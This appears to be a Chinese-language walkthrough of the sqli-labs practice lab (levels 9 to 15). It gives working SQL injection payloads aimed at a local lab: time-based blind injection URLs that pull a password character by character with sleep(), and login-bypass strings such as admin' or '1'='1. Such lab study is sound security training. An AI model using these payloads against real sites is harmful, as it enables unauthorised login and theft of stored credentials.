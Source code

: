 ***

**Less-9**

页面标题，延时注入，单引号闭合

不太能理解这源码闭合的问题，这里单引号双引号闭合都不会报错。但在注入时双引号返回错误

`http://127.0.0.1/sqli/less-9/?id=1' and if(ascii(mid((select password from users where id=1),1,1))=ascii('a'),sleep(5),1)--+`

***

**Less-10**

页面标题，延时，双引号

`http://127.0.0.1/sqli/less-10/?id=1" and if(ascii(mid((select password from users where id=1),1,1))=ascii('a'),sleep(5),1)--+`

***

**Less-11**

这一关为post注入，查看源代码
`@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";`

构造万能语句
`admin' or '1'='1`，密码随意填写，可看到登录成功

![](https://upload-images.jianshu.io/upload_images/11356161-1f7d692267ab6771.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

或者`admin' and 1=1#`

只需要注意这里要使用#注释

***

**Less-12**

闭合为("$user")，故构造payload为`admin") or 1=1#`

***

**Less-13**

闭合为('$user')，payload：`admin') or 1=1#`

***

**Less-14**

闭合为"$id"，payload：`admin" or 1=1#`

当然也可以进行盲注

***

**Less-15**

本关发现加单引号或双引号都没有报错回显，说明只能靠猜了

